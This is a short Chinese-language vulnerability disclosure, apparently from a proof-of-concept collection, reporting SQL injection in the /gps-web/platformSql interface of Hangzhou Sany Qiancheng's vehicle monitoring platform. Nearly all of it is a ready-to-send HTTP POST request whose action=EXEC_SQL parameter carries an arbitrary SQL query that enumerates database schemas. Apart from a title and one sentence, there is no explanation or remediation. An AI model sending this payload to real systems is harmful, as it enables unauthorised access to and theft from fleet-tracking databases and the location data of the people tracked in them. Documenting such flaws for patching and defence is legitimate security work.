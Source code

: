 # 杭州三一谦成科技车辆监控服务平台接口platformSql存在SQL注入漏洞

杭州三一谦成科技车辆监控服务平台接口 /gps-web/platformSql 存在SQL 注入漏洞



## poc

```java
POST /gps-web/platformSql HTTP/1.1
Host:
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */* Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 74

action=EXEC_SQL&params=SELECT schema_name FROM information_schema.schemata
```

